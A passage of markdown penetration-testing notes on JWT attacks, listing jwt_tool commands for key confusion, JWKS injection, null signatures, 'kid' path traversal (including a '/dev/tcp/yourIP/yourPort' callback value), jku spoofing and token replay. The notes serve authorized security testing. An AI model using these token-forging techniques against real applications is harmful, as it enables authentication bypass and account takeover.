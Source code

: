 	* need an RSA public key to test
	* the application provides this via an API or something hidden in the docs
	* need to use the right format of the Public key
	* PEM should contain a single newline character at the end
	* `python3 jwt_tool.py <JWT> -X k -pk my_public.pem`
	* if the page returns valid -> you have a bypass - go tampering
* ### JWKS injection
	* create a new RSA certificate pair, inject a JWKS file with the details of the public key in it and sign the data with the Private key 
	* if successful, the application should use your provided key data to verify it
	* `python3 jwt_tool.py <JWT> -X i`
	* if the page returns valid -> go tampering
* ### null signature
	* delete the signature from the end of the token 
	* if vulnerable, the application will fail to check the signature 
	* `python3 jwt_tool.py <JWT> -X n`

## Advanced tests
* ### 'kid' issues - reveal key
	* if the claim "kid" is used in the header, check the web directory for that file or a variation of it
	* eg - "kid": "key/12345" is present, look for "/key/12345" and "/key/12345.pem" on the web root 
* ### 'kid' issues - path traversal
	* if the claim "kid" is used in the header, check if you can use a different file in the file system
	* pick a file you might be able to predict the content of or may be try `"kid": "/dev/tcp/yourIP/yourPort"` to test connectivity or even some SSRF payloads
	* `python3 jwt_tool.py <JWT> -T` 
* ### URL tampering attacks
	* use Burp Collaborator or tcpdump to collect interaction if you have routable web server or [RequestBin](https://requestbin.com/) 
* ### JWKS Spoofing
	* if the token uses a "jku" Header claim then check out the provided URL which points to a URL containing the JWKS file that holds the Public Key or verifying the token
	* tamper the token to point the jku value to a web service you can monitor the traffic
	* when using jwt_tool make sure the jwtconf.ini file has been updated with the location of your personal JWKS or use `-ju <url>`
	* `python3 jwt_tool.py <JWT> -X s` 
## Extra checks
* ### Cross-service relay attacks
	* some web applications use a trusted JWT service to generate and manage token 
	* if you observe the JWT being issued or renewed via a third-party service, it is worth identifying if you can sign up for an account on another of that service's client with your same username/email
	* try taking that token and replaying it in a request to your target and is it accepted?
	* if accepted > have a critical issue allowing you to spoof any user's account
* ### Does the expiry get checked?
	* "exp" payload claim is used to check the expiry of a token 
	* if the token contains an "exp" claim and test time limits permit it - try storing the token and replaying it after the expiry time has passed
	* use jwt_tool to read the content of the token : decoding includes timestamp parsing and expiry checking
	* if the token still validates in the application, this may be a security risk as the token may NEVER expire

